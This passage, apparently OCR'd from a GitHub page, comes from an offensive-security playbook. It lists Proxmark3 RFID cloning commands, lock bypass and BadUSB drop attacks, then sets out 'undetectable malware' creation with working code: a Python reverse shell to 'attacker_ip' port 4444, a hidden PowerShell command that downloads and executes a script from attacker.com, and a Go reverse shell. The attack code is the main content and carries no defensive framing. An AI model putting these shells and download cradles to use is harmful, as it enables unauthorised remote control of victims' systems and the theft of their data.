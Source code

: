 **Techniques**:
```bash
# 1. RFID cloning and replay attacks
proxmark3
# Read target card
lf search
hf search
# Clone card data
lf clone

# 2. Lock picking and bypass
# Bump key attacks
# Lock picking techniques
# Magnetic stripe card cloning

# 3. USB drop attacks
# Create malicious USB devices
# Rubber Ducky payloads
# BadUSB attacks
```

## Malware Development and Deployment

### Custom Malware Creation
**Objective**: Develop undetectable malware for specific targets

**Techniques**:
```python
# 1. Python-based backdoor
import socket
import subprocess
import threading

def reverse_shell():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('attacker_ip', 4444))
    while True:
        command = s.recv(1024).decode()
        if command.lower() == 'exit':
            break
        output = subprocess.getoutput(command)
        s.send(output.encode())
    s.close()

# 2. PowerShell empire agent
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://attacker.com/agent.ps1'))"

# 3. Golang malware (harder to detect)
package main
import (
    "net"
    "os/exec"
)
func main() {
    conn, _ := net.Dial("tcp", "attacker_ip:4444")
    cmd := exec.Command("/bin/sh")
    cmd.Stdin = conn
    cmd.Stdout = conn
    cmd.Stderr = conn
    cmd.Run()
}
```
